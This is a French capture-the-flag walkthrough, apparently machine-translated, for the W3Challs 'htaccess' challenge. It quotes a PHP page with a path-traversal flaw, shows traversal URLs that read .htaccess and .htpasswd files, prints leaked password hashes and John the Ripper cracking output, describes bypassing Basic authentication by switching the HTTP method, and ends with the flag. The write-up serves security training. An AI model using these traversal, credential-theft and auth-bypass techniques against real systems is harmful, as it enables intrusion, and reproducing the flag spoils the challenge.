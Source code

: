 # .htaccess

1. Tout d’abord, passons par le site et affichons la source sur le référentiel git.
2. Ensuite, nous pouvons lire le README.md et voir que nous devons changer de chemin. La chose la plus importante est que le nom du chemin "secret" est changé, de sorte que la première mission est maintenant de trouver le nom caché. 
3. Maintenant, nous sommes en mesure de savoir que nous sommes dans la direction "inc" et après avoir lu "index.php".
    ```
    <?php

    require_once __DIR__.'/inc/top.php';

    if (isset($_GET['page']) && is_string($_GET['page']))
    {
        $page = __DIR__.'/inc/'.$_GET['page'];

        if (!file_exists($page))
        {
            printf('<div class="error">This page doesn\'t exist!</div>');
            exit();
        }

        require_once $page;
    }
    else
        require_once __DIR__.'/inc/home.php';

    require_once __DIR__.'/inc/footer.php';

    ?>
    ```
    Nous savons que nous devons traval le fichier par l’url "http://htaccess.hax.w3challs.com/index.php?page=". Maintenant, nous sommes capables de voyager et nous passons d’abord par la direction "http://htaccess.hax.w3challs.com/index.php?page=../admin/.htaccess". Voici les données que nous obtenons : 
    ```
    AuthUserFile /home/htaccess/www/UlTr4_S3cR3T_p4Th/.htpasswd AuthGroupFile /dev/null AuthName "Private area" AuthType Basic require valid-user
    ```
    La chose la plus importante est que nous obtenons le nom du fichier "secret" "UlTr4_S3cR3T_p4Th". 
4. Maintenant, nous sommes en mesure d’obtenir plus d’informations par "http://htaccess.hax.w3challs.com/index.php?page=../UlTr4_S3cR3T_p4Th/.htpasswd" et voici les données que nous obtenons : 
    ```
    admin1:$apr1$Ikl22aeJ$w1uWlBGlbatPnETT2XGx.. 
    admin2:$apr1$yJnQGpTi$WF5eCC/8lKsgBKY7fvag60 
    admin3:$apr1$fN20xzIa$UAnYxYS8qRiO8WKPJwOlK1 
    admin4:zQMI5ehC.sED2 
    admin5:{SHA}CKVCPg9EZI8U9KPPakEXgfXrMIc= 
    superadmin:{SHA}pAsyOzA/MHasbNO0OKRuXSp5sRI=
    ```
    Après avoir obtenu l’information, la première chose que je fais est d’utiliser john the ripper pour déchiffrer le code et j’obtiens :
    ```
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
    Use the "--format=md5crypt-long" option to force loading these as that type instead
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-opencl"
    Use the "--format=md5crypt-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 SSE4.1 4x5])
    Proceeding with single, rules:Single
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Almost done: Processing the remaining buffered candidate passwords, if any.
    Proceeding with wordlist:/usr/local/Cellar/john-jumbo/1.9.0/share/john/password.lst, rules:Wordlist
    orange           (?)
    1g 0:00:00:00 DONE 2/3 (2020-02-02 17:22) 100.0g/s 14000p/s 14000c/s 14000C/s brian..skippy
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    ```
    Ainsi, nous connaissons le nom d’utilisateur : admin1 et le mot de passe : orange. Maintenant, connectons-nous « http://htaccess.hax.w3challs.com/admin/ » et obtenons la première partie du flag.
5. Ensuite, nous devons nous connecter superadmin pour obtenir la deuxième partie du drapeau. Après les tons de craquement du temps "{SHA}pAsyOzA/MHasbNO0OKRuXSp5sRI=", Je découvre qu’il est impossible de le craquer. Puits... peut-être dix ans mais je n’ai pas le temps ! Donc, je cherche une autre façon de le passer. J’ai lu plus près de la "superadmin/.htaccess" fichier : 
    ```
    AuthUserFile /var/www/secret/.htpasswd_super
    AuthGroupFile /dev/null
    AuthName "Private area - superadmin only"
    AuthType Basic

    <Limit GET POST>
        require valid-user
    </Limit>
    ```
    Regardons de plus près la partie "Limit", et voici quelques-uns [information](https://defendtheweb.net/discussion/1159-bypassing-htaccesshtpasswd-based-authentication) que je trouve sur le site. Maintenant, nous sommes en mesure de le passer en changeant la méthode en utilisant l’url "http://htaccess.hax.w3challs.com/superadmin/index.php" et obtenez la deuxième partie du flag.
**6. Voici le flag :** `W3C{__0hMyG0d_Th3yKi7l3dk3nNy}`
